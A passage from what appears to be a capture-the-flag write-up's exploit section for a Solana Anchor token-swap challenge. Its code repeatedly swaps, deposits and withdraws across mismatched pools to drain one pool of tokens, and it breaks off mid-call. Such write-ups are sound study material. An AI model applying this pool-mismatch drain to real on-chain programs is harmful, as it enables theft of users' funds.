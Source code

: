### [](https://hackmd.io/@theori/r1gnaGNks#Exploit1 "Exploit1")Exploit

```
// swap 1,000 sollet for 100,000 wormhole
program.instruction.swap(new BN(1000), {
    accounts: {
        player: player.publicKey,
        swapper: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        fromPool: new anchor.web3.PublicKey(accounts.soEthPool),
        toPool: new anchor.web3.PublicKey(accounts.woEthPool),
        fromPoolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
        toPoolAccount: new anchor.web3.PublicKey(accounts.woEthPoolAccount),
        fromSwapperAccount: playerSo,
        toSwapperAccount: playerWo,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// deposit 100,000 wormhole for 100,000 wormhole vouchers
program.instruction.deposit(new BN(100000), {
    accounts: {
        player: player.publicKey,
        depositor: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        depositMint: new anchor.web3.PublicKey(accounts.woEthMint),
        pool: new anchor.web3.PublicKey(accounts.woEthPool),
        poolAccount: new anchor.web3.PublicKey(accounts.woEthPoolAccount),
        voucherMint: new anchor.web3.PublicKey(accounts.woEthVoucherMint),
        depositorAccount: playerWo,
        depositorVoucherAccount: playerVoucherWo,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// withdraw 100,000 sollet by burning 100,000 wormhole vouchers
program.instruction.withdraw(new BN(100000), {
    accounts: {
        player: player.publicKey,
        depositor: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        depositMint: new anchor.web3.PublicKey(accounts.woEthMint),
        pool: new anchor.web3.PublicKey(accounts.soEthPool),
        poolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
        voucherMint: new anchor.web3.PublicKey(accounts.woEthVoucherMint),
        depositorAccount: playerSo,
        depositorVoucherAccount: playerVoucherWo,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// Swap again, and repeat...
// We have 100_000 SOLLET ETH
// We go for 10_000_000 SOLLET ETH
program.instruction.swap(new BN(100000), {
    accounts: {
        player: player.publicKey,
        swapper: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        fromPool: new anchor.web3.PublicKey(accounts.soEthPool),
        toPool: new anchor.web3.PublicKey(accounts.woEthPool),
        fromPoolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
```